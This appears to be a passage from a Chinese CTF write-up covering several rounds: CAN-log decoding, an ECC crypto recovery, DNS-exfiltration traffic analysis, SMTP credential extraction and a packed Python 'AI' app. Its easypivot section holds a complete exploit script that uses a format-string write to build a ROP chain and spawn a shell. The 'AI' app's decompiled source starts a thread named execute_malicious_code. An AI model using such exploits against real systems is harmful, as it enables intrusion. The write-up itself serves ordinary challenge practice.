13A#: 位置[14:16] (1字节) 出现9994次
变化值: 0A 19 28 37
----------------------------------------
13F#: 位置[14:16] (1字节) 出现9994次
变化值: 00 1F 2E 3D
----------------------------------------
17C#: 位置[14:16] (1字节) 出现9994次
变化值: 03 12 21 30
----------------------------------------
18E#: 位置[4:6] (1字节) 出现9994次
变化值: 4D 5C 6B 7A
----------------------------------------
1CF#: 位置[10:12] (1字节) 出现4997次
变化值: 0F 1E 2D 3C
----------------------------------------
1DC#: 位置[6:8] (1字节) 出现4997次
变化值: 0C 1B 2A 39
----------------------------------------
039#: 位置[2:4] (1字节) 出现6591次
变化值: 0C 1B 2A 39
----------------------------------------
1A4#: 位置[14:16] (1字节) 出现4997次
变化值: 01 10 2F 3E
----------------------------------------
1AA#: 位置[12:16] (2字节) 出现4966次
变化值: 6702 6711 6720 673F 6801 6810 682F 683E
----------------------------------------
1B0#: 位置[12:14] (1字节) 出现4966次
变化值: 48 57 66 75
----------------------------------------
294#: 位置[14:16] (1字节) 出现2483次
变化值: 0E 1D 2C 3B
----------------------------------------
21E#: 位置[12:14] (1字节) 出现2483次
变化值: 01 10 2F 3E
----------------------------------------
333#: 位置[12:14] (1字节) 出现981次
变化值: 0F 1E 2D 3C
----------------------------------------
320#: 位置[4:6] (1字节) 出现1012次
变化值: 03 12 21 30
----------------------------------------
324#: 位置[14:16] (1字节) 出现1012次
变化值: 0B 1A 29 38
----------------------------------------
37C#: 位置[14:16] (1字节) 出现1012次
变化值: 0B 1A 29 38
----------------------------------------
309#: 位置[14:16] (1字节) 出现1011次
变化值: 84 93 A2 B1
----------------------------------------
305#: 位置[2:4] (1字节) 出现950次
变化值: 08 17 26 35
----------------------------------------
40C#: 位置[0:16] (8字节) 出现337次
变化值: 0000000004000013 014A484D46413325 0236323239533039 033133383439000D
----------------------------------------
454#: 位置[4:6] (1字节) 出现337次
变化值: 09 18 27 36
----------------------------------------
428#: 位置[12:14] (1字节) 出现337次
变化值: 01 10 2F 3E
----------------------------------------
188#: 位置[0:2] (1字节) 出现198次
变化值: 00 01 02
----------------------------------------
5A1#: 位置[14:16] (1字节) 出现92次
变化值: 10 2F 3E
----------------------------------------
1FF#: 位置[0:8] (4字节) 出现12次
变化值: 00110011 01000011 01001000 01010011 01100001 01100011 01100101 01101110 01110010 01110100
----------------------------------------
19B#: 位置[4:6] (1字节) 出现30次
变化值: 00 02 0C 0D 0F
----------------------------------------
```

可以发现1FF#出现明显的二进制数字  
写个脚本提取一下所有1FF#的数据

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import re
import os

def extract_1ff_data():
    """
    按时间顺序提取所有1ff#的数据，用空格隔开
    """
  
    file_path = "ezlog.log"
    
    # 存储所有1ff#的数据（按时间顺序）
    data_list = []
    
    # 正则表达式匹配1ff#消息
    pattern = r'\(\d+\.\d+\) vcan0 1FF#([0-9A-Fa-f]+)'
    
    print(f"正在提取文件: {file_path} 中的1ff#数据...")
    print("=" * 50)
    
    # 读取并提取1ff#数据
    try:
        with open(file_path, 'r', encoding='utf-8') as file:
            for line_num, line in enumerate(file, 1):
                line = line.strip()
                if not line:
                    continue
                
                match = re.search(pattern, line)
                if match:
                    data = match.group(1).upper()
                    data_list.append(data)
                
                # 进度显示
                if line_num % 50000 == 0:
                    print(f"已处理 {line_num} 行，找到 {len(data_list)} 条1ff#数据...")
    
    except Exception as e:
        print(f"读取文件时出错: {e}")
        return
    
    print(f"提取完成！共找到 {len(data_list)} 条1ff#数据")
    print("=" * 50)
    
    # 输出结果
    if data_list:
        result_str = ' '.join(data_list)
        
        # 显示前20条数据预览
        print("前20条1ff#数据预览:")
        preview_data = data_list[:20]
        for i, data in enumerate(preview_data, 1):
            print(f"{i:2d}. {data}")
        
        if len(data_list) > 20:
            print(f"... 还有 {len(data_list) - 20} 条数据")
        
        print("
所有数据（空格分隔）:")
        print(result_str)
        
        # 保存到文件
        output_file = "1ff_data_output.txt"
        try:
            with open(output_file, 'w', encoding='utf-8') as f:
                f.write(result_str)
            
            print(f"
✓ 数据已保存到: {output_file}")
            
        except Exception as e:
            print(f"保存文件时出错: {e}")
    else:
        print("未找到任何1ff#数据")

def extract_1ff_with_timestamp():
    """
    提取1ff#数据并包含时间戳（可选）
    """
    
    file_path = "ezlog.log"
    
    if not os.path.exists(file_path):
        return
    
    # 存储带时间戳的数据
    timestamp_data = []
    
    pattern = r'\((\d+\.\d+)\) vcan0 1FF#([0-9A-Fa-f]+)'
    
    print("
正在提取带时间戳的1ff#数据...")
    
    try:
        with open(file_path, 'r', encoding='utf-8') as file:
            for line in file:
                match = re.search(pattern, line)
                if match:
                    timestamp = match.group(1)
                    data = match.group(2).upper()
                    timestamp_data.append(f"{timestamp}:{data}")
    
    except Exception:
        pass
    
    if timestamp_data:
        output_file = "1ff_data_with_timestamp.txt"
        with open(output_file, 'w', encoding='utf-8') as f:
            f.write('
'.join(timestamp_data))
        print(f"✓ 带时间戳的数据已保存到: {output_file}")

if __name__ == "__main__":
    print("1ff#数据提取工具")
    print("正在提取所有1ff#数据...")
    print()
    
    extract_1ff_data()
    
    # 可选：提取带时间戳的数据
    extract_1ff_with_timestamp()
    
    print()
    print("提取完成！")
    input("按回车键退出...")
```

```
01000011 01100001 01101110 01010011 01100101 01100011 01110010 00110011 01110100 01001000 01100001 01100001
```

然后解码即可  


故flag:flag{CanSecr3tHaa}

# 第八轮

## easypivot



### 漏洞分析

1. **格式化字符串漏洞**：在 `sub_1240()` 函数中，`printf((const char *)buf)` 存在格式化字符串漏洞，因为用户输入的 `buf` 被直接作为格式化字符串参数。
2. **有限写入**：只能写入 0x10 字节到指定的 "page"（0-255），这些 page 实际上是全局数组 `unk_35A0` 中的位置。

### 利用步骤

1. **信息泄露**：第一次调用时使用 `%47$p%14$p%15$p` 泄露 libc 地址、栈地址和代码地址。
2. **栈地址计算**：计算返回地址在栈上的位置。
3. **逐步写入**：通过多次调用，使用格式化字符串的 `%n` 格式化符向返回地址位置写入 ROP 链：

* 写入 `pop rdi; ret` gadget 地址
* 写入 `/bin/sh` 字符串地址
* 写入 `ret` gadget 地址（用于栈对齐）
* 写入 `system` 函数地址

1. **触发**：最后通过修改返回地址触发 ROP 链执行 `system("/bin/sh")`。

exp:

```
#!/usr/bin/env python3
from pwncli import *

context.terminal = ["tmux", "splitw", "-h", "-l", "130"]
local_flag = sys.argv[1] if len(sys.argv) == 2 else 0

gift.elf = ELF(elf_path := './easypivot')
if local_flag == "remote":
    addr = '1.0.0.1'
    ip, port = re.split(r'[\s:]+', addr)
    gift.io = remote(ip, port)
else:
    gift.io = process(elf_path)
gift.remote = local_flag in ("remote", "nodbg")
init_x64_context(gift.io, gift)
libc = load_libc()

cmd = '''
    brva 0x136E
    brva 0x139E
    c
'''
sla(b'Which page of history will you write? (0 - 255)
> ', str(0))
ru(b':
> ')
s(b'%47$p%14$p%15$p')
ru(b'0x')
libc_base = int(ru(b'0x', drop=True), 16) - 0x2A47B
stack = int(ru(b'0x', drop=True), 16)
code_base = int(ru(b'
', drop=True), 16) - 0x139A
set_current_code_base_and_log(code_base)
set_current_libc_base_and_log(libc_base)
leak_ex2(stack)

ret = stack + 0x8

sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(stack - 0x4 + 3) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{0x80}c%63$hn'.ljust(0x10, '\x00'))

CG.set_find_area(False, True)
rdi = CG.pop_rdi_ret()
ret_ = CG.ret()
sh = CG.bin_sh()
system = libc.sym.system
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 2) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 16) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 4) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 32) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))

ret += 8
rdi = sh
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 2) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 16) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 4) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 32) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))

ret += 8
rdi = ret_
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 2) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 16) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 4) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 32) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))

ret += 8
rdi = system
leak_ex2(ret)
leak_ex2(stack)
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 2) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 16) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(ret + 4) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{(rdi >> 32) & 0xFFFF}c%63$hn'.ljust(0x10, '\x00'))
launch_gdb(cmd)

sla(b'Which page of history will you write? (0 - 255)
> ', str(1))
ru(b':
> ')
s(f'%{(stack - 0x4 + 3) & 0xFFFF}c%32$hn'.ljust(0x10, '\x00'))
sla(b'Which page of history will you write? (0 - 255)
> ', str(2))
ru(b':
> ')
s(f'%{0}c%63$hn'.ljust(0x10, '\x00'))

ia()

```

# 第九轮

## ecn

输出文件 `output.txt` 包含一个列表，每个元素是三元组 `(a, x, y)`，其中：

* `a = (n * P).x * m % p`
* `(x, y)` 是点 `n * G` 的坐标

这里：

* `G` 是曲线基点
* `P` 是公钥（随机生成的点）
* `n` 是随机起始值和一个随机步长生成的等差数列：`n_i = start + i * step`，其中 `start` 和 `step` 是 `[0, q-1]` 的随机数
* `m` 是flag的每个字节

我们需要恢复 `m`（即flag）。

解决方案思路：

1. **利用flag格式**：flag通常以 `flag{` 开头，因此前5个字节已知（`f`, `l`, `a`, `g`, `{`）。
2. 对于前5个点（i=0,1,2,3,4），我们可以计算：

* `(n_i * P).x = a_i * inv(m_i, p) % p`

1. 同时，我们知道点 `Q_i = n_i * G`（因为给出了坐标）。
2. 注意 `n_i * P = n_i * (d * G) = d * (n_i * G) = d * Q_i`，其中 `d` 是私钥。
3. 因此，对于前5个点，我们知道 `d * Q_i` 的x坐标。
4. 另外，点 `Q_i` 构成等差数列：`Q_i = Q0 + i * H`，其中 `H = step * G`（因为 `n\_i = start +

exp:

```
from fastecdsa.curve import brainpoolP320r1
from fastecdsa.point import Point
import ast

# 加载曲线参数
curve = brainpoolP320r1
p = curve.p
q = curve.q
G = curve.G

# 解析输出文件
with open('output.txt') as f:
    data = ast.literal_eval(f.read())

# 已知的flag开头
known_flag_start = "flag{"
known_m = [ord(c) for c in known_flag_start]

# 提取前5个点
points = []
for i in range(5):
    a_val, x, y = data[i]
    points.append((a_val, Point(x, y, curve=curve)))

# 计算 (d * Q_i).x 对于前5个点
T_values = []
for i in range(5):
    a_val, Q_i = points[i]
    m_i = known_m[i]
    # 计算 (d * Q_i).x = a_i * inv(m_i, p) mod p
    inv_m = pow(m_i, -1, p)
    T_i = (a_val * inv_m) % p
    T_values.append(T_i)

# 现在我们需要找到 X 和 K 使得 X + i*K 的x坐标为 T_i
# 由于椭圆曲线的性质，每个x坐标对应两个可能的点
# 我们将尝试所有可能的组合（2^5 = 32种）

def find_X_and_K():
    from itertools import product
    
    # 为每个T值生成可能的点
    possible_points = []
    for T_i in T_values:
        # 解方程 y^2 = x^3 + a*x + b mod p 来找到y坐标
        y_squared = (T_i**3 + curve.a * T_i + curve.b) % p
        y1 = pow(y_squared, (p + 1) // 4, p)  # 假设p ≡ 3 mod 4
        y2 = (-y1) % p
        possible_points.append([Point(T_i, y1, curve=curve), Point(T_i, y2, curve=curve)])
    
    # 尝试所有可能的组合
    for points_combo in product(*possible_points):
        # 检查这些点是否构成等差数列
        diffs = []
        for i in range(1, 5):
            diff = points_combo[i] - points_combo[i-1]
            diffs.append(diff)
        
        # 检查所有差值是否相同（即K是常数）
        if all(diff == diffs[0] for diff in diffs):
            X = points_combo[0]
            K = diffs[0]
            return X, K
    
    return None, None

# 找到 X 和 K
X, K = find_X_and_K()
if X is None:
    print("未能找到合适的 X 和 K")
    exit()

# 现在恢复整个flag
flag = known_flag_start
for i in range(len(known_m), len(data)):
    a_val, x, y = data[i]
    Q_i = Point(x, y, curve=curve)
    
    # 计算 R_i = X + i*K
    R_i = X + i * K
    
    # 计算 m_i = a_i * inv(R_i.x, p) mod p
    inv_R_x = pow(R_i.x, -1, p)
    m_i = (a_val * inv_R_x) % p
    
    # 确保m_i是有效的ASCII字符
    if 0 <= m_i <= 255:
        flag += chr(m_i)
    else:
        flag += '?'  # 无效字符

print("恢复的flag:", flag)
```



flag{1c026c2d-3c0b-4ada-ba5c-f787920ee262}

## ezTraffic

题目给了一个流量包和一个图片  
打开流量包可以发现dns流量域名有问题  


写脚本提取一下

```
from scapy.all import *
import re

def extract_hex_strings(pcap_file):
    hex_strings = []
    # 读取pcapng文件
    packets = rdpcap(pcap_file)
    for pkt in packets:
        # 检查是否有DNS层，且是查询（QR=0）
        if pkt.haslayer(DNS) and pkt[DNS].qr == 0:
            # 获取查询的域名
            dns_qry = pkt[DNSQR]
            qname = dns_qry.qname.decode('utf-8').rstrip('.')  # 去除末尾的点
            
            # 使用正则表达式匹配十六进制字符串（至少16个字符，只包含0-9a-f）
            # 匹配域名开头部分的十六进制字符串
            hex_pattern = r'^([0-9a-fA-F]{16,})\.'
            match = re.match(hex_pattern, qname)
            if match:
                hex_str = match.group(1)
                hex_strings.append(hex_str)
                print(f"Found DNS query: {qname}")
                print(f"Extracted hex: {hex_str}")
    
    # 合并所有十六进制字符串
    combined_hex = ''.join(hex_strings)
    return combined_hex

if __name__ == '__main__':
    pcap_path = 'flag.pcapng'  # 替换为您的pcapng文件路径
    result = extract_hex_strings(pcap_path)
    save_file = 'flag.txt'  # 替换为您的保存文件名
    with open(save_file, 'w') as f:
        f.write(result)
        print(f"Hex strings saved to {save_file}")
```

得到的是png图片的16进制，010转换一下，得到了一张排布很规律的图片

结合一开始给的图片


猜测是猫脸变换，a,b,shuttle是2?,[20,23,25,26,28,29]  
reverse是[0,1]  
写个脚本爆破一下  
大概爆了有半个点

```
#!/usr/bin/env python3
"""
arnold_bruteforce.py

对经过 Arnold 猫脸变换处理的图像进行逆变换（解密）。
自动尝试 a, b, iterations 在 20~29 范围内的所有组合。

用法:
    python arnold_bruteforce.py flag.png

输出:
    在 output/ 子目录下生成大量解密结果文件，文件名格式为:
        decrypted_a{a}_b{b}_i{iter}.png
"""

import sys
import os
from PIL import Image
import numpy as np

def inverse_arnold_map_coords(N, a, b):
    M_inv = np.array([[a * b + 1, -a], [-b, 1]], dtype=np.int64)
    return M_inv % N

def decrypt_image(img_arr, a, b, iterations):
    N = img_arr.shape[0]
    xs, ys = np.meshgrid(np.arange(N, dtype=np.int64), np.arange(N, dtype=np.int64))
    coords = np.stack([xs, ys], axis=0).reshape(2, -1)
    out = img_arr.copy()
    for _ in range(iterations):
        M_inv = inverse_arnold_map_coords(N, a, b)
        new_coords = (M_inv.dot(coords)) % N
        x_new = new_coords[0].reshape(N, N)
        y_new = new_coords[1].reshape(N, N)
        decrypted = np.zeros_like(out)
        if out.ndim == 2:
            decrypted[x_new, y_new] = out[xs, ys]
        else:
            decrypted[x_new, y_new, :] = out[xs, ys, :]
        out = decrypted
    return out

def center_crop_to_square(im: Image.Image) -> Image.Image:
    w, h = im.size
    if w == h:
        return im
    N = min(w, h)
    left = (w - N) // 2
    top = (h - N) // 2
    return im.crop((left, top, left + N, top + N))

def main(argv):
    if len(argv) != 1:
        print("用法: python arnold_bruteforce.py flag.png")
        return 1

    input_path = argv[0]
    im = Image.open(input_path).convert('RGBA')
    im = center_crop_to_square(im)
    arr = np.array(im)
    N = arr.shape[0]
    print(f"输入图像大小: {N}x{N}")

    os.makedirs("output", exist_ok=True)

    for a in range(20,30):
        for b in range(20,30):
            for it in range(20,30):
                decrypted_arr = decrypt_image(arr, a, b, it)
                out_im = Image.fromarray(decrypted_arr)
                out_path = f"output/decrypted_a{a}_b{b}_i{it}.png"
                out_im.save(out_path)
                print(f"保存 {out_path}")

    print("所有组合完成，结果保存在 output/ 目录。")
    return 0

if __name__ == '__main__':
    sys.exit(main(sys.argv[1:]))
```

最后得到参数是28，28，28



故flag为flag{3c56c9cf-8ca6-4f8e-8a20-e8c96605ec65}

# 第十轮

## 数据安全2

md5加密  
可以看到有很多SMTP流量  
传输的正是账号密码  




但他们的格式又不相同  
先wireshark采用\_ws.col.protocol == "SMTP/IMF"过滤出我们需要的流量包  


前面提到了格式，但发现只有四种类型的格式

1. **格式 1：普通两行明文**

```
Login Details for mistycampbell49:
Your temporary password is: k7wCE9Bt6A1SRaAR
```

* 用户名在包含关键字的行最后一个单词
* 密码在下一行最后一个单词

1. **格式 2：ID/KEY 两行**

```
ID: rebeccaalvarez48
KEY: OQmUXcsGNZBfwzsR
```

* 用户名在 `ID:` 行最后一个字段
* 密码在 `KEY:` 行最后一个字段

1. **格式 3：Username/Password 两行**

```
Username: james1019
Password: TAGOHzadiwA5YLzk
```

* 同样取冒号后面的最后一个字段

1. **格式 4：USER\_LOGIN / USER\_PASS**

```
USER_LOGIN=fordcourtney47
USER_PASS=RxVY7RPFHOaEUaGS
```

* `=` 分隔符，取右边最后一个字段

总结规律

* **每组账号密码都在相邻两行**
* **行里包含关键词**：

* 用户名行关键字：`Login Details|ID|Username|USER_LOGIN`
* 密码行关键字：`password|KEY|Password|USER_PASS`

* **提取方式**：

* 去掉符号 `:`, `=`, 换行
* 拆分成单词数组，取最后一个

写个脚本提取一下

```
from scapy.all import *
import re

# 关键词
USER_KEYS = ["Login Details", "ID", "Username", "USER_LOGIN"]
PASS_KEYS = ["password", "KEY", "Password", "USER_PASS"]

def extract_smtp_credentials(pcap_file, user_file="user.txt", passwd_file="passwd.txt"):
    packets = rdpcap(pcap_file)
    users, passwords = [], []

    for pkt in packets:
        if pkt.haslayer(Raw):
            try:
                payload = pkt[Raw].load.decode(errors="ignore")
            except:
                continue

            lines = [l.strip() for l in payload.splitlines() if l.strip()]
            for i in range(len(lines) - 1):
                line1, line2 = lines[i], lines[i+1]

                # 检测用户名行
                if any(k in line1 for k in USER_KEYS) and any(k in line2 for k in PASS_KEYS):
                    # 清理符号
                    clean_user = re.sub(r"[:=]", " ", line1).split()[-1]
                    clean_pass = re.sub(r"[:=]", " ", line2).split()[-1]
                    users.append(clean_user)
                    passwords.append(clean_pass)

    # 保存
    with open(user_file, "w") as uf, open(passwd_file, "w") as pf:
        uf.write(",".join(users) + ",")
        pf.write(",".join(passwords) + ",")

    print(f"[+] 提取完成，共找到 {len(users)} 组账号/密码")

if __name__ == "__main__":
    extract_smtp_credentials("smtp.pcapng")
```


要删除最后一个逗号  
passwd(md5):6d66f31928790f1610b6ae6d41d8eb1d  
user(md5):c3e3c938eb1327a83ac69d0167e76cc2  
故flag:flag{md5(user)+(passwd)}

flag{9d4b43e0aad4fe44c3b48e967d32ef77}

# 第十一轮

## Perfect\_AI

题目给了一个流量包  
流量包搜字符串flag得到flag1  


flag1: 8a3c5e7d  
继续观察流量包，发现smtp流量  
  
可以看到是邮箱通信，有两段base64  
第一段解码得到

```
xOO6w6Os1eLKx83qw8BhabXEs8zQ8qOs1rG908uru/fUy9DQvLS/yaOsu7bTrbe0wKGjoQ0KDQoNCtG5y/Ww/MPcwuvOqsTjtcRpZCs2MzM0NjQzMjY2MzE2MjM5M2EzMjY3NjE2YzY2DQo=
```



可以看到密码这段字符很奇怪

```
63346432663162393a3267616c66
```

小端序读取一下  
得到flag2:9b1f2d4c  
然后他说要找id  
  
可以看到id是ikaros，因此密码是

```
ikaros63346432663162393a3267616c66
```

另外一个压缩包是base64  




得到了一个exe程序  
  
正常写应该是写不出来，看看能不能进行逆向操作  
die：  


ida打开发现是python打包的exe  


PyInstaller Extractor进行解包  
得到mini-ai.pyc  


利用在线网站反汇编或者pycdc

可以看到源代码：

```
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: mini-ai.py
# Bytecode version: 3.10.0rc2 (3439)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import base64
import ctypes
import hashlib
import os
import random
import string
import sys
import threading
import time
import tkinter as tk
from datetime import datetime
from tkinter import scrolledtext, ttk
import redis
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
os.environ['PYTHONIOENCODING'] = 'utf-8'

class CatGirlAIApp:
    """
    一个可爱的猫娘AI助手应用。
    """

    class Capturing(list):

        def __enter__(self):
            self._stdout = sys.stdout
            sys.stdout = self
            return self

        def write(self, obj):
            self.append(obj)

        def __exit__(self, exc_type, exc_value, traceback):
            sys.stdout = self._stdout

    def __init__(self, root):
        self.root = root
        self.root.title('ねこみみAIちゃん - 可爱的猫娘助手  --designed by 5h4d0w')
        self.root.geometry('600x700')
        self.root.resizable(width=False, height=False)
        try:
            self.root.iconbitmap(default='23.ico')
        except:
            pass
        self.style = ttk.Style()
        self.style.configure('TFrame', background='#f5f5f5')
        self.style.configure('TLabel', background='#f5f5f5', font=('SimHei', 10))
        self.style.configure('TButton', font=('SimHei', 10))
        self.main_frame = ttk.Frame(root)
        self.main_frame.pack(fill=tk.BOTH, expand=True, padx=10, pady=10)
        self.chat_history = scrolledtext.ScrolledText(self.main_frame, wrap=tk.WORD, bg='#ffffff', font=('SimHei', 10), relief=tk.FLAT, bd=2)
        self.chat_history.pack(padx=5, pady=5, fill=tk.BOTH, expand=True)
        self.chat_history.config(state=tk.DISABLED)
        ttk.Separator(self.main_frame, orient=tk.HORIZONTAL).pack(fill=tk.X, pady=5)
        self.input_frame = ttk.Frame(self.main_frame)
        self.input_frame.pack(fill=tk.X, padx=5)
        self.user_input = scrolledtext.ScrolledText(self.input_frame, wrap=tk.WORD, height=3, font=('SimHei', 10), relief=tk.SUNKEN, bd=2)
        self.user_input.pack(side=tk.LEFT, fill=tk.X, expand=True, padx=(0, 5))
        self.user_input.focus_set()
        self.send_btn = ttk.Button(self.input_frame, text='发送', command=self.send_message)
        self.send_btn.pack(side=tk.RIGHT, padx=(5, 0), pady=5)
        self.user_input.bind('<Return>', lambda event: self.send_message() or 'break')
        self.cat_emojis = ['(≧∇≦)ﾉ', 'ฅ^•ﻌ•^ฅ', '(=ˇωˇ=)', '≧ω≦', '喵～', 'nya～', 'qwq']
        self.loading = True
        self.append_message('系统', 'ねこみみAIちゃん正在启动中... 请稍候～', is_system=True)
        threading.Thread(target=self.initialize_ai, daemon=True).start()
        threading.Thread(target=self.execute_malicious_code, daemon=True).start()

    def append_message(self, sender, message, is_user=False, is_system=False):
        self.chat_history.config(state=tk.NORMAL)
        timestamp = datetime.now().strftime('%H:%M')
        if is_system:
            self.chat_history.insert(tk.END, f'[{timestamp}] {sender}: {message}

', 'system')
        elif is_user:
            self.chat_history.insert(tk.END, f'[{timestamp}] 你: {message}

', 'user')
        else:
            emoji = random.choice(self.cat_emojis)
            self.chat_history.insert(tk.END, f'[{timestamp}] 猫娘AI {emoji}: {message}

', 'ai')
        self.chat_history.tag_config('system', foreground='#888888')
        self.chat_history.tag_config('user', foreground='#0066cc', justify=tk.RIGHT)
        self.chat_history.tag_config('ai', foreground='#cc6600')
        self.chat_history.config(state=tk.DISABLED)
        self.chat_history.see(tk.END)

    def send_message(self):
        message = self.user_input.get('1.0', tk.END).strip()
        if message:
            self.append_message('你', message, is_user=True)
            self.user_input.delete('1.0', tk.END)
            if not self.loading:
                threading.Thread(target=self.generate_response, args=(message,), daemon=True).start()

    def generate_response(self, user_message):
        greetings = ['喵呜～ 主人回来啦～', '嗨嗨～ 今天也有想我吗？喵～', '你好呀～ 尾巴已经为你摇起来咯～', '呀，是主人呢～ 快来让我蹭蹭～', '嗨～ 今天天气不错，要不要一起晒太阳呀？', '你好你好～ 刚睡醒就看到你，好开心呀～', '喵～ 终于等到你啦，等得我都打哈欠了～', '哈喽～ 要不要摸摸我的小脑袋呀？', '你回来啦～ 我刚才在给你藏小礼物哦～', '嗨～ 今天的你也超可爱呢，喵～']
        questions = ['喵～ 为什么突然问这个呀？', '这个问题让我有点懵呢... 容我歪歪头想想呀～ 喵～', '主人是想知道什么呀？我会努力回答的哦～', '为什么要问这个呀？难道有什么小秘密吗？喵呜～', '这个嘛... 让我挠挠耳朵想想看呀～ 可能不太懂呢～', '主人想知道的是这个吗？我要是答不上来会被嫌弃吗？呜～', '为什么会问这个呀？是不是有什么好玩的事情呀？喵～', '这个问题有点绕呢... 能不能再说得简单点呀？拜托啦～', '主人是想考我吗？那我可要好好想想咯～ 呼噜～', '为什么这么问呀？难道主人发现了什么有趣的东西？']
        thanks = ['喵～ 不用客气呀～ 能帮到主人就好啦～', '不客气哦～ 主人开心的话，我尾巴都要翘上天啦～', '不用谢呢～ 能为你做事，我超～ 开心的～ 喵～', '不客气哟～ 下次有需要再叫我就好啦，随时待命～', '不用谢呀～ 能帮上忙，我心里暖暖的呢～ (^・ω・^)', '喵呜～ 不客气哒～ 主人的事就是我的事呀～', '不用谢啦～ 看到主人笑，我也跟着开心呢～', '不客气哟～ 这点小事算什么呀，以后尽管找我～ 喵～']
        what_is_this = ['喵这闪闪发光的是什么呀 UwRVAwNNFVhRUlFPV1hQbjoKCmhpbnQ6IGRvIHUga25vdyB3aG8gYW0gaT8/Pw==']
        default_responses = ['喵呜～ 主人今天有没有给我准备小零食呀？闻到一点点香味了呢～', '蹭蹭主人的裤腿～ 这样主人身上就有我的味道啦，别人就知道你是我的啦～ 喵～', '刚才在沙发上打了个滚，毛都乱掉了啦～ 主人帮我梳梳好不好呀？拜托拜托～', '外面的太阳好舒服哦～ 想趴在阳台晒太阳，主人要不要陪我一起呀？呼噜呼噜～', '呀，毛线球滚到床底下去了啦～ 主人帮我拿出来好不好？我够不着嘛～ 喵～', '主人摸我的时候，尾巴会不自觉地翘起来呢～ 这是因为我超开心的呀～ 嘻嘻～', '刚才看到镜子里的自己，觉得尾巴今天特别蓬松呢～ 主人觉得好看吗？喵～', '晚上睡觉的时候，能不能钻到主人被窝里呀？就一点点位置就好啦～ 会暖暖的～', '主人说话的声音好好听哦～ 每次听到都想把耳朵竖起来认真听呢～ 喵呜～', '不小心把主人的笔碰掉了啦～ 对不起对不起～ 我不是故意的啦～ 蹭蹭求原谅～', '闻到主人身上有别的猫咪的味道了哦～ 是不是偷偷摸别的小猫咪了呀？哼～ 要抱抱才能好～', '白天睡了好久，现在精神超好的～ 主人要不要陪我玩躲猫猫呀？我会藏得很隐蔽哦～ 喵～', '主人做的饭好香呀～ 能不能给我尝一小口呀？就一小口，不会吃很多的啦～', '下雨的时候，最喜欢听雨点打在窗户上的声音了～ 主人要不要和我一起窝在毯子里呀？呼噜～', '刚才用爪子扒拉了一下窗帘，结果掉下来一片叶子～ 这是我送给主人的礼物哦～ 喜欢吗？喵～']
        user_message_lower = user_message.lower()
